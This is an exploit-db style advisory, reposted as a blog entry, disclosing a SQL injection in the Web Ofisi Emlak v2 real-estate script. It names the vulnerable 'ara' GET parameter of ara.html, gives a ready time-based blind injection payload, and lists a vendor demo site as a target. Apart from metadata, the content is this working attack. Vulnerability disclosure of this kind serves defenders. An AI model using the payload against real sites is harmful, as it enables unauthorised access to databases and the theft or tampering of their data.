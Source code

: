 ```yaml
---
layout:     post
title:      "Web Ofisi Emlak 2 - 'ara' SQL Injection"
date:       2019-07-19 12:03
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Emlak 2 - 'ara' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/emlak-scripti-v2.html
# Demo Site: http://demobul.net/emlakv2/
# Version: v2
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/ara.html?ara=
Vulnerable Parameter: ara (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z
